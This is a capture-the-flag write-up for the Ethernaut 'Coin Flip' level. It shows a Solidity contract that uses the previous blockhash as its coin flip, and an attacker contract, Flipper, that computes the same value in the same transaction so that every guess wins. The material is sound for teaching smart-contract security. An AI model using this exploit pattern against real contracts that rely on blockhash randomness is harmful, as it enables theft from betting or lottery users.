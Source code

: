 ### Type - Beyond the Console

*** 

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the "?" page above in the top right corner menu, section "Beyond the console"

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

_______________________________________

# Solution

1. Get a new Instance of the contract
2. To make the correct guess 10 times in a row we observe that the consecutiveWins state variable is updated in the flip() function which returns a boolean
3. We make a new contract and pass the instance of the address of the CoinFlip contract in the constructor
4. Now to guess 10 times in a row we can make an external helper function which makes sure that the guess is correct everytime 

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract Flipper{

  CoinFlip private immutable coinflip;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _coinflip){
    coinflip = CoinFlip(_coinflip);
  }

  function flip() external {
    bool guess = _guess();
    require(coinflip.flip(guess),"guess failed");
  }

  function _guess() private view returns(bool){
    uint256 blockValue = uint256(blockhash(block.number - 1));

    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    return side;

  }
}
```

# Explanation
Samrt Contract Programmer - [Ethernaut 03 - Coin Flip](https://www.youtube.com/watch?v=Bye55YkzZyM)

